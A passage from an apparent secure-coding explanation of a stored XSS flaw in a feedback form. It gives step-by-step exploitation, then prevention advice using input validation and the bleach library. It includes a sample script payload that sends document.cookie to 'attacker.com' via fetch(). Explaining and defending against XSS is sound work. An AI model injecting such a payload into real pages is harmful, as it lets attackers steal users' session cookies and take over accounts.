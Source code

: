 
## **2. Exploitation Scenario**

**Step-by-Step Exploitation:**

1. **Preparation:**
   - Attacker crafts a malicious payload, e.g., `<script>stealCookies()</script>`.
   
2. **Submission:**
   - Attacker submits the payload via the feedback form's `name` or `message` field.

3. **Storage:**
   - The payload is stored in the `feedback_list` without any sanitization.

4. **Triggering the Payload:**
   - When another user (or the attacker themselves) views the feedback page, the malicious script is rendered and executed in the user's browser.

5. **Execution:**
   - The script performs its intended malicious action, such as sending the user's cookies to the attacker's server.

**Example Payload Injection:**
```html
<script>
  fetch('https://attacker.com/steal?cookies=' + document.cookie);
</script>
```

**Consequences:**
- The attacker's server (`attacker.com`) receives the victim's cookies, potentially allowing unauthorized access to user accounts.
- The victim's browser executes the script, which might also perform actions like redirecting to malicious sites, displaying fake login forms, or manipulating the DOM.

---

## **3. Best Practices to Prevent Stored XSS Vulnerabilities**

To safeguard the application against Stored XSS and other injection attacks, developers should adhere to the following best practices:

### **a. Input Validation and Sanitization**

- **Validate Inputs:**
  - Ensure that input data conforms to expected formats (e.g., no HTML tags in `name` fields).
  - Use regex patterns or validation libraries to enforce strict input rules.

- **Sanitize Inputs:**
  - Remove or encode potentially dangerous characters or scripts from user inputs.
  - Utilize libraries like `bleach` in Python to clean HTML content:
    ```python
    import bleach

    sanitized_name = bleach.clean(name)
    sanitized_message = bleach.clean(message)
    ```
